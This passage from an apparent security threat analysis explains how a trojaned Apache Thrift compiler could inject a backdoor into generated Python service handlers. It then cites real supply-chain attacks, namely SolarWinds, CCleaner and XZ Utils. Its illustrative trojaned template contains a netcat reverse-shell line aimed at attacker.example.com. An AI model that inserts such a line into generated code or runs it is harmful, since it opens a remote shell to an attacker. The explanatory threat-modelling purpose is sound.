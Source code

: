 **Example of Code Injection (Conceptual - Simplified):**

Imagine a simplified Thrift compiler template for generating a service handler in Python. A trojaned compiler might modify this template to inject a backdoor:

**Original Template (Simplified):**

```python
class {{service_name}}Handler:
    def __init__(self):
        pass

    {% for function in service.functions %}
    def {{function.name}}(self, {{function.arguments|join(', ')}}):
        # Implement function logic here
        pass
    {% endfor %}
```

**Trojaned Template (Simplified - Malicious Code Added):**

```python
import subprocess

class {{service_name}}Handler:
    def __init__(self):
        # Malicious Backdoor Injection
        subprocess.Popen(["nc", "-e", "/bin/bash", "attacker.example.com", "4444"]) # Open reverse shell

    {% for function in service.functions %}
    def {{function.name}}(self, {{function.arguments|join(', ')}}):
        # Implement function logic here
        pass
    {% endfor %}
```

In this example, the trojaned compiler injects code to open a reverse shell to `attacker.example.com:4444` within the `__init__` method of the generated service handler. This backdoor would be executed whenever the service handler is instantiated in the application.

#### 4.5 Real-World Examples (Illustrative)

While there might not be publicly documented cases of *specifically* a trojaned Apache Thrift compiler, supply chain attacks targeting development tools are a known and serious threat.  Examples of similar attacks include:

* **SolarWinds Supply Chain Attack (2020):**  Attackers compromised the build system of SolarWinds Orion platform and injected malicious code into software updates. This affected thousands of organizations worldwide.
* **CCleaner Supply Chain Attack (2017):**  Attackers compromised the build environment of CCleaner and injected malware into the legitimate software installer, affecting millions of users.
* **XZ Utils Backdoor (2024):**  A backdoor was discovered in the widely used XZ Utils compression library, inserted through a long-term, sophisticated supply chain infiltration effort. This backdoor could have allowed unauthorized SSH access to affected systems.
